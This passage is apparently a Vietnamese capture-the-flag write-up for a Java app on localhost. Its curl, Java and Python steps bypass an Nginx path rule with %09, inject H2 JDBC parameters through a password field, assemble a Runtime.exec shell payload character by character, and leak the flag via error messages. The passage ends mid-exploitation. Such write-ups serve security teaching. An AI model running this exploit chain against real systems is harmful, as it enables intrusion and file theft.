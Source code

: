 ### Lỗi #3 — Error-based exfil (render `e.getMessage()`)
- Ép H2 `RUNSCRIPT FROM` một **file thường** → H2 ném lỗi **kèm nội dung file**.
- Ứng dụng render nguyên thông điệp lỗi → **lộ nội dung file**.


## 3) Ý tưởng khai thác

1. Login lấy `JSESSIONID` (nếu cần).
2. **Bypass** Nginx: `POST /internal/testConnection%09`.
3. **Giữ H2 sống**: dùng `DB_CLOSE_DELAY=-1`.
4. **JDBC injection** qua `password`:
   - Tạo bảng tạm → ghép payload RCE từng ký tự → `FILE_WRITE` ra `/tmp/rce` → `RUNSCRIPT` chạy.
5. Với RCE:
   - `ls / > /tmp/ls` để lấy **tên flag** thực tế.
   - `cat /<RANDOMNAME> > /tmp/flag`.
6. **Exfil** qua lỗi: `RUNSCRIPT FROM '/tmp/flag'` → flag in ra HTML.


## 4) Khai thác (chi tiết, có lệnh mẫu)

> Host: `http://localhost:8989/`, đã có `JSESSIONID=<SESSION>`.

### 4.1 Bypass nhanh
```bash
curl -i "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"
```

### 4.2 Tạo bảng tạm & seed
```bash
curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"   -H "Content-Type: application/x-www-form-urlencoded"   --data-raw 'username=a&password=a;DB_CLOSE_DELAY=-1;INIT=CREATE TABLE X(d VARCHAR)'

curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>" -H "Content-Type: application/x-www-form-urlencoded"   --data-raw 'username=a&password=a;DB_CLOSE_DELAY=-1;INIT=INSERT INTO X VALUES('"'"'CREATE '"'"')'
```

### 4.3 Ghép payload 1 (liệt kê `/`)
```java
ALIAS SHELL AS $$void shell()throws Exception{
  Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","ls / > /tmp/ls"});
}$$;CALL SHELL();
```
Sinh ASCII và append:
```bash
python3 - <<'PY'
p='''ALIAS SHELL AS $$void shell()throws Exception{
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","ls / > /tmp/ls"});
}$$;CALL SHELL();'''
for ch in p: print(ord(ch))
PY

# Append từng ký tự:
while read -r c; do
  curl -s "http://localhost:8989/internal/testConnection%09"     -H "Cookie: JSESSIONID=<SESSION>"     -H "Content-Type: application/x-www-form-urlencoded"     --data-raw "username=a&password=a;DB_CLOSE_DELAY=-1;INIT=UPDATE X SET d = d || CHAR(${c})" >/dev/null
done < <(python3 - <<'PY'
p='''ALIAS SHELL AS $$void shell()throws Exception{
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","ls / > /tmp/ls"});
}$$;CALL SHELL();'''
for ch in p: print(ord(ch))
PY
```
